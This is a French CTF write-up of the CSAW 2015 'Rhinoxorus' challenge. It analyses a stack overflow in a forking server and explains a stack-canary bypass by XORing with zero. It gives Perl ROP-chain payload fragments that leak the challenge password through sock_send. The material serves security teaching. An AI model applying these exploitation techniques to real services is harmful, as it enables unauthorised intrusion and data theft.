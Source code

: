```yaml
---
title: CSAW-preq 2015 - Rhinoxorus (exploitable 500)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```



Voici un petit write-up pour le challenge 'rhinoxorus' du CSAW ctf 2015.

### **Analyse**

```
    $ rop-tool info ./repo/ctf/2015-csaw_preq/exploit500

     ===== INFOS =====
    Filename                 ./repo/ctf/2015-csaw_preq/exploit500
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x8048750
    Loadables segments       2
    Sections                 30

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled
```

Il s'agit d'un fork-serveur écoutant sur le port 24242. Une fois connecté, le serveur lit une chaine de caractères, puis fais quelques opérations dessus. On arrive assez vite à faire planter le serveur en envoyant une chaine assez longue.


Au début du challenge, le code source n'était pas fourni (il le fût au bout d'un moment, mais j'avais déjà fini la partie reversing...), j'ai donc sorti IDA pour tenter de comprendre le fonctionnement de ce mystérieux programme.


On trouve dans le programme 256 fonctions, ayant la forme suivante (pas 100% fidèle) :

```c
    #define BUFF_SIZE(X) ((0x84 - (0x32 - X)*4) & 0xFF)
    #define CHAR_TO_FUNC(c) ((c + 0x32) & 0xFF)

    #define CALL_FUNC(x,s,c) do { functions[x](s,c); } while(0)

    #define FUNC(X)                                 \
      void func_X(char *buff, int count) {          \
        char s[BUFF_SIZE(X)];                       \
        int i;                                      \
                                                    \
        if(--count == 0)                            \
          return;                                   \
                                                    \
        memset(s, BUFF_SIZE(X), BUFF_SIZE(X));      \
                                                    \
        for(i = 0; i < count; i++) {                \
          s[i] ^= buff[i];                          \
        }                                           \
                                                    \
        CALL_FUNC(CHAR_TO_FUNC(s[0], ++s, count));  \
                                                    \
      }
```

On remarque que notre chaine de caractère est traité de cette manière :

```c
    CALL_FUNC(CHAR_TO_FUNC(buffer[0], buffer, len_received);
```

On peut constater que ces fonctions sont toutes vulnérables à un stack based overflow...

Maintenant, comment exploiter tout ça, en sachant qu'il y a Stack Smashing Protector ?


### **Exploitation**

Ma cible a été la fonction func_00 (il fallait en choisir une...)

Au début de ma chaine, je mets une rop-chain exécutant sock_send(sock, password, len). Ils ont été gentils de nous fournir cette fonction, en plus du password à une adresse fixe...
Mais je pense, qu'une fois qu'on était arrivé à faire exécuter notre rop-chain, il aurait été plutôt facile de réaliser une exploitation plus poussée (leak de la libc, mmap() d'un shellcode, etc...)

```perl
    $buff .= pack("L", 0x0804a5ce); # ret
    $buff .= pack("L", 0x0804884b); # sock_send()
    $buff .= pack("L", 0x44444444); # dummy
    $buff .= pack("L", 5);          # sock
    $buff .= pack("L", 0x0805f0c0); # @password
    $buff .= pack("L", 0x100);      # len

```

Au début de ma rop-chain, je mets un 'ret' car étant donné que le premier caractère de notre chaine détermine quelle fonction est appelée, il est plus facile de trouver une instruction ret avec un byte de poids faible permettant d'appeler notre fonction func_00().

```
$ rop-tool g ./repo/ctf/2015-csaw_preq/exploit500 -d 1 -a -n | grep ret | grep "ce ->"
     0x0804a5ce -> ret ;
```

Je remplis ensuite le buffer à overflowé avec n'importe quoi...

** Comment bypasser le canary ?**

Étant donné que le buffer sur lequel nous débordons est xoré avec notre payload...Si on XOR le canary avec 0x0, notre canary ne sera pas modifié !

Ensuite, une fois la fonction func_00 appelée, nous souhaitons que l'exécution s'arrête afin d'éviter un segfault dans une autre fonction ayant un buffer plus petit. Pour se faire, on remarque qu'il est possible d'écraser la variable count, variable utilisée comme cas d'arrêt.

Si on met cette variable à 1, alors la prochaine fonction func_X appelée retournera immédiatement.

Étant donnée que dans func_00, la variable count vaut 0xd7 (taille de notre buffer - 1), il suffit de xorer cette valeur avec 0xd7 XOR 1.

En effet :

```
count = 0xd7 XOR (0xd7 XOR 1)

<=> count = (0xd7 XOR 0xd7) XOR 1

<=> count = 1

```

Ensuite, notre rop-chain (le buffer présent dans process_connection()), étant situé à ESP+0x1c octets au moment du retour de la fonction func_00, on a besoin d'écraser saved-eip par la valeur d'un gadget permettant d'incrémenter ESP de 0x1c octets.

```
$ rop-tool g ./repo/ctf/2015-csaw_preq/exploit500 -d 10 | grep "add esp"
    0x080578f5 -> add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret ;
     ...
```

Par chance, nous trouvons pile ce qu'il nous faut.

Il ne faut pas oublier de XORER cette adresse avec l'ancien saved-eip dans notre payload.

On a tout ce qu'il faut pour créer notre exploit et obtenir le flag !

```perl
    $buff .= pack("L", 0x0);                     # canary
    $buff .= pack("L", 0x44444444)x3;            # padding

    $buff .= pack("L", 0x080578f5 ^ 0x08056afa); # add esp, 0xc, pop4 ; ret
    $buff .= pack("L", 0x44444444);              # dummy
    $buff .= pack("L", 0xd7 ^ 0x1);              # count
```

L'exploit se trouve ici : [exploit](https://github.com/t00sh/ctf/blob/master/2015/csaw-preq/exploit500.pl)

Et le binaire là : [binaire](https://repo.t0x0sh.org/ctf/2015-csaw_preq/exploit500)


Challenge intéressant ; il fallait voir qu'on pouvait XORER le canary avec 0x0 et écraser la variable count afin de stopper l'exécution.
